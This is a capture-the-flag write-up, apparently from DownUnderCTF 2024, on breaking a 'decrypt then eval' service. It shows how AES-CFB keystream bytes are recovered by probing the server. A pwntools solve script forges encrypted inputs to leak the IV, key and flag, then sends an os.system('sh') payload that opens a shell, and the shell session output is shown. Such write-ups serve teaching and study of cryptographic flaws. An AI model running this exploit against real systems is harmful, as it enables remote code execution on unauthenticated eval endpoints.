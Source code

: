 ```yaml
---
created: 2024-07-05T18:09
updated: 2024-07-07T03:59
title: decrypt then eval
---
```


## Analysis

Looking through the docs on CFB and playing around with it made me realize that the encryption works by $C=E\oplus P$.

```python
print(xor(b'ABC', AES.new(KEY, AES.MODE_CFB, IV, segment_size=128).encrypt(b'ABC')))
print(xor(b'ABCD', AES.new(KEY, AES.MODE_CFB, IV, segment_size=128).encrypt(b'ABCD')))
b'Gq\x18'
b'Gq\x18\x16'
```

Hence with a known plaintext and ciphertext pair, we can obtain the unknown $E$ without knowing IV or Key.

My method is to send random bytes until the server reply with `1`, in that case I would know the ciphertext for `1`. I will add another random byte to the ciphertext until server reply with `11`. You get the point.

I will find the first 4 characters of $E$ by using the $E=C\oplus \text{0b1111}$.

```mermaid
sequenceDiagram
    Me-->>Remote: 0x00 to 0xff
    Remote->>Me: b'1'
    Me-->>Remote: 0x39 + 0x00 to 0xff
    Remote->>Me: b'11'
    Note over Me,Remote: Repeat 4 times
    Note over Me,Remote: Find E by b'1111' ^ b'....'
```

### Solve Script

```python
from pwn import *
from Crypto.Cipher import AES
context.log_level = 'error'
rm = remote('2024.ductf.dev', 30020)
rm.recv()


def send(payload):
    rm.sendline(payload.hex().encode())
    r = rm.recv().strip()[:-4].strip()
    if r == b'invalid ct!':
        return None
    return r


def main():
    e = b''
    p = b''
    expected = 1
    for i in range(4):
        for _ in range(256):
            _p = p + _.to_bytes(1, 'big')
            if send(_p) == str(expected).encode():
                e = xor(_p, str(expected).encode())
                print(f"#{i} found E = {e}")
                p = _p
                expected = expected*10+1
                break
            print('.', end='', flush=True)
    r = send(xor(e, b'FLAG'))
    print(r)
    IV = eval(send(xor(e[:2], b'IV')))
    KEY = eval(send(xor(e[:3], b'KEY')))
    d = AES.new(KEY, AES.MODE_CFB, IV, segment_size=128).encrypt(b"__import__('os').system('sh')")
    rm.sendline(d.hex().encode())
    rm.interactive()


if __name__ == '__main__':
    main()
```

```
......................................................................................................#0 found E = b'W'
..............................................................................................................................................#1 found E = b'W\xbf'
............................................................................................................................................................................................................................#2 found E = b'W\xbf\xed'
........................................................................................................................................................................#3 found E = b'W\xbf\xed\x99'
b'DUCTF{should_have_used_authenticated_encryption!}'
ls
bin
chal
kctf
lib
lib64
usr
cd ~
sh: 2: cd: can't cd to ~
```

Yes, I even added a reverse shell.
